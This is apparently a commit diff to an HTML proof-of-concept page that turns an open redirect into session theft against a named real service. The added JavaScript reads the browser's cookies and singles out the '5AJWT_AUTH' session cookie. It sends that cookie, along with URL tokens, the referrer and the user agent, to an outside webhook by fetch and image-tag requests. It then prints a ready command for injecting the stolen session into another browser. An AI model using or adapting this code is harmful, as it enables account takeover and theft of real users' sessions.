

Before and after one commit to Alisson-tech/redir-poc, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
add cookie capture - session hijacking poc

```diff
--- a/index.html
+++ b/index.html
@@ -1,16 +1,48 @@
 <!DOCTYPE html>
 <html lang="pt-BR">
+
 <head>
     <meta charset="UTF-8">
     <title>Security POC - Token Capture</title>
     <style>
-        body { font-family: monospace; background: #1a1a1a; color: #00ff88; padding: 20px; }
-        pre { background: #111; padding: 10px; border: 1px solid #333; overflow-x: auto; word-break: break-all; white-space: pre-wrap; }
-        .label { color: #aaa; font-size: 12px; margin-top: 10px; }
-        .found { color: #ffcc00; }
-        .empty { color: #555; }
+        body {
+            font-family: monospace;
+            background: #1a1a1a;
+            color: #00ff88;
+            padding: 20px;
+        }
+
+        pre {
+            background: #111;
+            padding: 10px;
+            border: 1px solid #333;
+            overflow-x: auto;
+            word-break: break-all;
+            white-space: pre-wrap;
+        }
+
+        .label {
+            color: #aaa;
+            font-size: 12px;
+            margin-top: 10px;
+        }
+
+        .found {
+            color: #ffcc00;
+        }
+
+        .empty {
+            color: #555;
+        }
+
+        .critical {
+            color: #ff4444;
+            font-weight: bold;
+            border: 1px solid #ff4444;
+        }
     </style>
 </head>
+
 <body>
     <h2>🔍 Open Redirect - Token Capture POC</h2>
     <div id="output"></div>
@@ -24,9 +56,9 @@
         // =============================================
         // 1. COLETA DE DADOS DA URL
         // =============================================
-        var hash     = window.location.hash;          // #token=...
-        var search   = window.location.search;         // ?token=...
-        var fullURL  = window.location.href;
+        var hash = window.location.hash;          // #token=...
+        var search = window.location.search;         // ?token=...
+        var fullURL = window.location.href;
         var referrer = document.referrer;              // De onde veio o redirect
 
         var qp = new URLSearchParams(search);
@@ -39,10 +71,27 @@
         ];
 
         var found = {};
-        tokenCandidates.forEach(function(k) {
+        tokenCandidates.forEach(function (k) {
             var v = qp.get(k) || hp.get(k);
             if (v) found[k] = v;
         });
+
+        // =============================================
+        // 1b. CAPTURA DE COOKIES (Session Hijacking)
+        // =============================================
+        var allCookies = document.cookie; // Todos os cookies sem HttpOnly
+
+        // Parseia os cookies em um objeto para facilitar análise
+        var cookieMap = {};
+        allCookies.split(';').forEach(function(c) {
+            var parts = c.trim().split('=');
+            var name = parts.shift();
+            var value = parts.join('=');
+            if (name) cookieMap[name] = value;
+        });
+
+        // Cookie alvo específico identificado na análise
+        var targetCookie = cookieMap['5AJWT_AUTH'] || null;
 
         // =============================================
         // 2. DECODIFICAÇÃO LOCAL DO JWT (sem servidor)
@@ -53,7 +102,7 @@
                 if (parts.length !== 3) return null;
                 var payload = atob(parts[1].replace(/-/g, '+').replace(/_/g, '/'));
                 return JSON.parse(payload);
-            } catch(e) {
+            } catch (e) {
                 return null;
             }
         }
@@ -63,10 +112,13 @@
         // =============================================
         var payload = {
             found_tokens: found,
+            cookies: cookieMap,
+            target_cookie_5AJWT_AUTH: targetCookie,
             hash: hash,
             query: search,
             full_url: fullURL,
             referrer: referrer,
+            user_agent: navigator.userAgent,
             timestamp: new Date().toISOString()
         };
 
@@ -77,6 +129,14 @@
 
         // Método 2: img tag (fallback — funciona mesmo com CSP restritiva)
         new Image().src = WEBHOOK + "?img=1&d=" + encoded;
+
+        // Método 3: envio dedicado e explícito do cookie alvo
+        if (targetCookie) {
+            fetch(WEBHOOK + "?HIJACK=1&5AJWT_AUTH=" + encodeURIComponent(targetCookie), {
+                method: 'GET',
+                mode: 'no-cors'
+            });
+        }
 
         // =============================================
         // 4. EXIBIÇÃO LOCAL PARA DEBUG/REPORT
@@ -92,14 +152,13 @@
         html += row('📤 Referrer', referrer || '(sem referrer)');
         html += row('❓ Query String', search || '(nenhuma)');
         html += row('🔖 Fragment/Hash', hash || '(nenhum)');
-        html += row('🎯 Tokens Encontrados', JSON.stringify(found, null, 2));
+        html += row('🎯 Tokens na URL', JSON.stringify(found, null, 2));
 
-        // Decodifica cada JWT encontrado
-        Object.keys(found).forEach(function(k) {
+        // Decodifica cada JWT encontrado na URL
+        Object.keys(found).forEach(function (k) {
             var decoded = decodeJWT(found[k]);
             if (decoded) {
                 html += row('🔓 JWT Decodificado (' + k + ')', JSON.stringify(decoded, null, 2));
-                // Alerta se token ainda válido
                 if (decoded.exp && decoded.exp * 1000 > Date.now()) {
                     html += '<pre class="found">⚠️  TOKEN VÁLIDO! Expira em: ' + new Date(decoded.exp * 1000).toISOString() + '</pre>';
                 } else if (decoded.exp) {
@@ -108,8 +167,28 @@
             }
         });
 
+        // ---- SEÇÃO DE COOKIES ----
+        html += row('🍪 Todos os Cookies (document.cookie)', allCookies || '(nenhum cookie acessível)');
+
+        if (targetCookie) {
+            html += '<p class="label">🚨 COOKIE ALVO CAPTURADO — 5AJWT_AUTH</p>';
+            html += '<pre class="critical">' + targetCookie + '</pre>';
+
+            // Tenta decodificar se for JWT
+            var decodedCookie = decodeJWT(targetCookie);
+            if (decodedCookie) {
+                html += row('🔓 JWT do Cookie Decodificado', JSON.stringify(decodedCookie, null, 2));
+                if (decodedCookie.exp && decodedCookie.exp * 1000 > Date.now()) {
+                    html += '<pre class="critical">🔥 SESSÃO ATIVA! Válida até: ' + new Date(decodedCookie.exp * 1000).toISOString() + '\n\nInjetar no navegador:\ndocument.cookie = "5AJWT_AUTH=' + targetCookie + '; domain=.quintoandar.com.br; path=/";</pre>';
+                }
+            }
+        } else {
+            html += '<pre class="empty">Cookie 5AJWT_AUTH não encontrado (pode ter HttpOnly ou não estar no domínio).</pre>';
+        }
+
         html += row('📡 Enviado para Webhook', WEBHOOK);
         out.innerHTML = html;
     </script>
 </body>
+
 </html>
```
